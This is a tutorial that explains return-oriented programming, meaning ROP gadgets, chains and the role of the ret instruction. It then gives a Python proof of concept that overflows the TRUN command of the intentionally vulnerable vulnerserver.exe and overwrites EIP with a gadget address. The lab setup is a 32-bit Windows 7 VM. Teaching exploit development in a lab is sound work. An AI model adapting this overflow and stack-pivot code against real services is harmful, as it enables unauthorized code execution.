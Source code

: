 Let's say there's an application called __vulnserver.exe__. Let's say there is a memory address of `0xDEADBEEF` that when viewed, contains the instruction `add esp, 0x100`. If this memory address got loaded into the instruction pointer, it would execute the command it points to. But nothing user supplied was written to the stack.

What this means for exploit developers, is this. If one is able to chain a set of memory addresses together, that all point to useful instructions already existing in an application/system - it might be possible to change the permissions of the memory pages containing malicious shellcode. Let's get into how this looks from a practicality/hands-on approach.

If you would like to follow along, I will be developing this exploit on a 32-bit Windows 7 virtual machine with ASLR disabled. The application I will be utilizing is [vulnserver.exe](https://github.com/stephenbradshaw/vulnserver).

A Brief Introduction to ROP Gadgets and ROP Chains
---

The reason why ROP is called Return Oriented Programming, is because each instruction is always followed by a `ret` instruction. Each `ASM + ret` instruction is known as a ROP gadget. Whenever these gadgets are loaded consecutively one after the other, this is known as a ROP chain.

The `ret` is probably the most important part of the chain. The reason the return instruction is needed is simple. Let's say you own the stack. Let's say you are able to load your whole ROP chain onto the stack. How would you execute it?

Enter `ret`. A return instruction simply takes whatever is located in the stack pointer (on top of the stack) and loads it into the instruction pointer (what is currently being executed). Since the ROP chain is located on the stack and a ROP chain is simply a bunch of memory addresses, the `ret` instruction will simply return to the stack, pick up the next memory address (ROP gadget), and execute it. This will keep happening, until there are no more left! This makes life a bit easier.

POC
---
Enough jibber jabber - here is the POC for __vulnserver.exe__:
```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+filler)
s.close()
```
